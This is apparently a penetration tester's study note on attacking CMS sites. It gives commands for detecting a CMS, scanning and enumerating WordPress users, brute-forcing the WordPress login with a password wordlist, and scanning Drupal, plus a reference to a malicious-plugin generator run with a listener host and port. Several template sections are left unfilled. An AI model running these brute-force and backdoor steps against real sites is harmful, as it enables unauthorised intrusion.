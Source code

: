 # Description

CMS (Content Management System) is computer software used to manage the creation and modification of digital content.

# Command Syntax

-  **CMS Detection**

If you don't know which CMS used in target websites, you can detect it using Cmseek which is an automatic CMS detection tool.

```bash
cmseek -u vulnerable.com
```

-   **WP Scan**

```bash
# Basic WordPress scan
wpscan --url http://$IP/wp/
```

-   **WP Brute Forcing**

```bash
# Brute forcing WordPress login
wpscan --url http://$IP/wp/wp-login.php -U Admin --passwords /usr/share/wordlists/rockyou.txt --password-attack wp-login
```

-   **Custom Path**

```bash
wpscan -u "http://<IP>/" --wp-content-dir "<custom-path>"
```

-   **Enumerate Users**

```bash
wpscan -u "http://<IP>/" --enumerate u

# Using wordlist
wpscan -u "http://<IP>/" --username <username> -w /usr/share/SecList/Usernames/xato-usernames-top-1millions-20000.txt
```

-   **Malicious Plugins**

```bash
# Using a malicious WordPress plugin
https://github.com/wetw0rk/malicious-wordpress-plugin

# Usage
python3 wordpwn.py [LHOST] [LPORT] [HANDLER]

# Example
python3 wordpwn.py 192.168.119.140 443 Y
```

-   **Drupal Scan**

```bash
# Scan Drupal CMS
droopescan scan drupal -u [TARGET_URL]
```

# Common Flags / Options

-flag: Description of what this flag does

# Use Cases

When and why you would use this technique?

# Examples

Practical example from a lab machine or HTB.

```sh
example-command -flag target
```

# Related Notes

[[Link to a related atomic note]]

[MOC - Reconnaissance](../0%20-%20MOCs/MOC%20-%20Reconnaissance.md)

# References

https://exploit-notes.hdks.org/exploit/web/cms/